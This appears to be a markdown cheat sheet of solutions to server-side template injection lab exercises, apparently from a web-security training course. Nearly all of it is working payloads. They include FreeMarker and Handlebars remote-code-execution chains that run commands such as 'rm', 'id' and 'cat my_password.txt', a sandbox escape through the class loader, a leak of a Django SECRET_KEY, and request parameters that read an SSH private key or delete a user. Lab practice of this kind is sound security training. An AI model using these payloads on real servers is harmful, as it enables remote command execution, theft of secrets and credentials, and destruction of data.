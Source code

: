 # SSTI : Server-side template injection 


### Basic server-side template injection
Payload
```
Fuzz : ${{<%[%'"}}%\.
 ERB documentation

```
### Server-side template injection with information disclosure via user-supplied objects
Payload
```
Fuzz : ${{<%[%'"}}%\.

<p>Hurry! Only {{product.stock}} left of {{product.name}} at {{product.price}}.{{settings.SECRET_KEY}}</p>
```

### Server-side template injection using documentation
Payload
```
<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.HELLOO ${"freemarker.template.utility.Execute"?new()("rm -rf morale.txt")}</p>
```

### Server-side template injection in an unknown language with a documented exploit
```
FUZZ : ${{<%[%'"}}%\


"Handlebars server-side template injection". You should find a well-known exploit posted by @Zombiehelp54.

wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

### Server-side template injection in a sandboxed environment
Payload 
```html

<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.Hello 

<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}



<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("ls -l")}


<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat my_password.txt")}

</p>
```


### Server-side template injection with a custom exploit

Payload
```
1.Upload txt file and see the error

PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/plain in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar(('/tmp/hello.txt', 'text/plain'))
#1 {main}
  thrown in /home/carlos/User.php on line 28


blog-post-author-display=user.setAvatar('/home/carlos/avatar_upload.php',+'image/png')&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX





blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa',+'image/png')&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX


blog-post-author-display=user.gdprDelete()&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX



```